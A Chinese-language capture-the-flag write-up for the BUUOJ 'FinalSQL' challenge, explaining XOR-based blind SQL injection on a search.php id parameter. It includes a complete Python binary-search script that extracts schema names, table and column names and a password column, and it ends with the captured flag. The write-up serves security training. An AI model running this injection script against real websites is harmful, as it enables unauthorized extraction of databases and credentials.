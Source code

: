 # [极客大挑战 2019]FinalSQL

[题目地址](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)

网站给了登录框和几个可以点的选项。登录框试了一下，直接把单引号过滤了，简单粗暴。几个可点的选项自然也没有东西，不过第五个提示了url的id参数有问题。

- You are too naive!How can I give it to you? So,why not take a look at the sixth one?But where is it?

把id改为6就能看见别的东西了，肯定不会是flag，都final了怎么可能这么简单。在id处尝试注入，然而同样也把单引号过滤了。常规直接爆值的肯定是不行了，最重要的闭合符号没了。看看[wp](https://blog.csdn.net/weixin_44214568/article/details/124047431)，原来是异或盲注，之前没见过的类型。

- http://41ec872a-4766-4225-820f-ceab0bfb17ee.node4.buuoj.cn:81/search.php?id=1^1

此时页面会返回错误信息，因为1异或1是0，这个网站遇见1-6 id之外的就会报错。`1^0`就正常了，结果是1，返回1号页面的东西。借鉴布尔盲注的思路，让要爆的值以布尔形式返回，然后异或两个1，比如`1^result^1`。如果result是1，回显正常，代表当前测试数据正确；如果不正常就代表不正确。借用大佬的脚本，即使用了二分法也跑了好一会。

```python
import requests
url = "http://41ec872a-4766-4225-820f-ceab0bfb17ee.node4.buuoj.cn:81/search.php"
flag = ''
def payload(i, j):
    # 数据库名字
    #sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)
    # 表名
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)
    # 列名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)
    # 查询flag
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data)
    # print (r.url)
    if "Click" in r.text:
       res = 1
    else:
       res = 0
    return res
def exp():
    global flag
    for i in range(1, 10000):
        low = 31
        high = 127
        while low <= high:
              mid = (low + high) // 2
              res = payload(i, mid)
              if res:
                 low = mid + 1
              else:
                 high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
           break
        flag += chr(f)
exp()
print('flag=', flag)
```

## Flag
> flag{de2fc56e-c92f-4bf4-84ee-880087f1fab9}